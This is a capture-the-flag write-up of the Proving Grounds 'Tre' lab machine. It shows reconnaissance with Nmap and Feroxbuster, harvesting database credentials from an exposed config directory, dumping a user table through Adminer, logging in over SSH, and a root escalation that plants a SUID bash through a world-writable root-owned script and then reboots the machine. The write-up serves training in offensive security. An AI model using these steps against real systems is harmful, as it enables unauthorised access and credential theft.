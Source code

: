 # PG Play - Tre

#### Ip: 192.168.199.84
#### Name: Tre
#### Difficulty: Intermediate
#### Community Rating: Hard

----------------------------------------------------------------------

### Enumeration

Lets scan the target using Nmap. Here I will use the `-p-` flag to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ sudo nmap -p-  --min-rate 10000 192.168.199.84 -sC -sV 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-20 14:15 CDT
Nmap scan report for 192.168.199.84
Host is up (0.11s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 991aead7d7b348809f88822a14eb5f0e (RSA)
|   256 f4f69cdbcfd4df6a910a8105defa8df8 (ECDSA)
|_  256 edb9a9d72d00f81bd399d602e5ad179f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Tre
|_http-server-header: Apache/2.4.38 (Debian)
8082/tcp open  http    nginx 1.14.2
|_http-title: Tre
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.70 seconds
```

Heading to the site on port 80 we find just an image:

![site.png](../assets/tre_assets/site.png)

If we kick off some directory fuzzing with Feroxbuster using:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ feroxbuster --url http://192.168.199.84 -q -x php
```

We find some mantisbt directories. The `/config` directory seems especially interesting:

![manits.png](../assets/tre_assets/manits.png)

Heading to the page we find an index of files:

![index.png](../assets/tre_assets/index.png)

CLicking into `a.txt` we find some DB credentials. 

![creds.png](../assets/tre_assets/creds.png)

Trying these on the mantisbt page however, we find they are no good there:

![nope.png](../assets/tre_assets/nope.png)

Looking back at our running Feroxbuster scan, we see it has picked up an `/adminer.php` page:

![adminer.png](../assets/tre_assets/adminer.png)

Lets try the DB credentials we discovered earlier here:

![login.png](../assets/tre_assets/login.png)

Nice that worked:

![in.png](../assets/tre_assets/in.png)

In the SQL Command area of the page we can begin enumerating the database. After discovering a `mantis_user_table` I ran `select * from mantis_user_table` and discovered some more credentials:

![sql.png](../assets/tre_assets/sql.png)

Tre's 'realname' looks a bit like a password. Lets try it using SSH:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ ssh tre@192.168.199.84                                
The authenticity of host '192.168.199.84 (192.168.199.84)' can't be established.
ED25519 key fingerprint is SHA256:1ZfYO3DGJA+iL5+oiLgoa4kQETeZ48YhrRrPnTvJb3A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.199.84' (ED25519) to the list of known hosts.
tre@192.168.199.84's password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tre@tre:~$ whoami
tre
```

Cool, that worked! We can now grab the local.txt flag:

![user_flag.png](../assets/tre_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` to check Tre's permissions for sudo we see he can execute `shutdown`. Interesting.

```text
tre@tre:$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
``` 

Lets also load up LinPEAS to help out with more enumeration:

![transfer.png](../assets/tre_assets/transfer.png)

Linpeas finds that check-system is writable. We may be able to exploit this.

![check.png](../assets/tre_assets/check.png)

Double checking the permissions, we see it is owned by root but we have the ability to read and write to it:

```text
tre@tre:/usr/bin$ ls -la check-system
-rw----rw- 1 root root 135 May 12  2020 check-system
```

If we add the SUID bit to `/bin/bash` and then restart the machine using `sudo shutdown` when the machine reboots we should be able to easily get the root flag:

![nano.png](../assets/tre_assets/nano.png)

We can then shutdown the machine:

```text
tre@tre:/usr/bin$ sudo shutdown -r now
tre@tre:/usr/bin$ Connection to 192.168.199.84 closed by remote host.
Connection to 192.168.199.84 closed
```

Now if we SSH back in again we can run `/usr/bin/bash -p` and we will escalate to a root shell:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ ssh tre@192.168.199.84
tre@192.168.199.84's password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Sep 20 15:39:31 2023 from 192.168.45.246
-bash-5.0$ whoami
tre
-bash-5.0$ /usr/bin/bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1000(tre) gid=1000(tre) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(tre)
```

We can now grab the final flag:

![root_flag.png](../assets/tre_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------






